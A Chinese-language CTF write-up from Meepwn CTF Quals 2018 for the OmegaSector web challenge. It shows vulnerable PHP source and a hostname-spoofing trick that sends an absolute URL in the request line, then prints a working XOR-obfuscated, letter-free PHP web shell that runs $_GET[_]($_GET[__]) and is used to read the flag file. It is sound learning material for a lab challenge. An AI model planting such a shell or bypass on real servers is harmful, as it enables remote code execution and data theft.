# Meepwn CTF Quals 2018
有一段時間沒有玩CTF了，這次一樣只有接觸Web的幾題來做點學習紀錄...  

# OmegaSector
這題的源碼就在`OmegaSector.php`裡面，大致上有兩個關卡：  
1. 如何在`Request_URI`中fake一個hostname  
2. 無文字shell  
```php
include('secret.php');    // FLAG

$remote=$_SERVER['REQUEST_URI'];     // /+後面的內容

if(strpos(urldecode($remote),'..'))    // 沒有文件包含漏洞，不允許使用..
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);   // hostname alien.somewhere.meepwn.team


if($whoareyou==="alien.somewhere.meepwn.team")
{
    if(!isset($_GET['alien']))
```
以上是第一關的關鍵代碼，推測FLAG就在`secret.php`裡，不管如何我們都得想辦法進到下面的if判斷式裡。過程中試了非常多`http://example.com@fake.com`了方法，但是這些方法的fake host都不在`$_SERVER['REQUEST_URI']`，以下面這張圖為例:  
![](https://farm2.staticflickr.com/1765/43444531781_26c94e32f4_b.jpg)  
`REQUEST_URL`就是第一行的`/index.php`，我實在沒辦法把我們需要的fake.com偽造到REQUEST_URI之中。賽後看到WP發現居然可以在burp中這樣送:  
![](https://farm2.staticflickr.com/1790/43444531471_f717157297_b.jpg)  
這邊需要注意一點，我們不能改header中的HOST，代碼中取得`PHP_URL_HOST`是透過我們request的URL，也就是`$remote`，可是直接在burp中傳送完整的URL也讓我有點激動，這樣也算是強行繞過第一關了!  
再來是第二關，我們只能在留言板上留除了字母以及數字外的符號  
![](https://farm1.staticflickr.com/839/42728446884_a2d0253d90_b.jpg)  
這就讓我想到了無文字shell，由於有限制大小，我就放上以XOR為運算基礎的shell  
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);?>
```  
`$_`運算的結果是`_GET`，所以shell中第二段代碼是`$_GET[_]($_GET[__]);`  
![](https://farm2.staticflickr.com/1762/29573824578_836f0cc06b_b.jpg)  
GET SHELL，我用`show_source("../secret.php")`的方式把內容顯示出來...  
![](https://farm2.staticflickr.com/1766/42728435404_863eb1e3b7_b.jpg)  
flag正是`MeePwnCTF{__133-221-333-123-111___}`  

# grandline